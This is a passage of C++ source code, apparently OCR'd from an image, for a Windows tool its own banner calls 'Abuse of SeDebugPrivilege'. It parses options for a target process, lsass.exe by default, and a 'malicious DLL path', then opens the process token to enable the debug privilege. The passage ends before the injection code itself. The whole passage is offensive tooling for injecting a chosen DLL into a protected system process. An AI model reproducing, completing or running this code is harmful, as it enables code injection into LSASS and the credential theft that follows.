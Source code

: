 ```c++
    {
        status = TRUE;
    }
    return status;
}

void PrintUsage()
{
    wprintf(
        L"Abuse of SeDebugPrivilege by @WHOAMI (whoamianony.top)\n\n"
        L"Arguments:\n"
        L"  -h                  Show this help message and exit.\n"
        L"  -p <ProcessName>    Specifies the system process name.\n"
        L"  -m <DLL>            Specifies the malicious DLL path.\n"
    );
}

int wmain(int argc, wchar_t* argv[])
{
    HANDLE hToken = NULL;
    LPCWSTR lpProcessName = L"lsass.exe";
    LPCWSTR lpDllFileName = NULL;

    while ((argc > 1) && (argv[1][0] == '-'))
    {
        switch (argv[1][1])
        {
        case 'h':
            PrintUsage();
            return 0;
        case 'p':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                lpProcessName = (LPCWSTR)argv[1];
            }
            break;
        case 'm':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                lpDllFileName = (LPCWSTR)argv[1];
            }
            break;
        default:
            wprintf(L"[-] Invalid Argument: %s.\n", argv[1]);
            PrintUsage();
            return 0;
        }

        ++argv;
        --argc;
    }

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
    {
        wprintf(L"[-] OpenProcessToken Error: [%u].\n", GetLastError());
        return 0;
    }
    // Enable SeDebugPrivilege for the current process token.
    if (EnableTokenPrivilege(hToken, SE_DEBUG_NAME))
```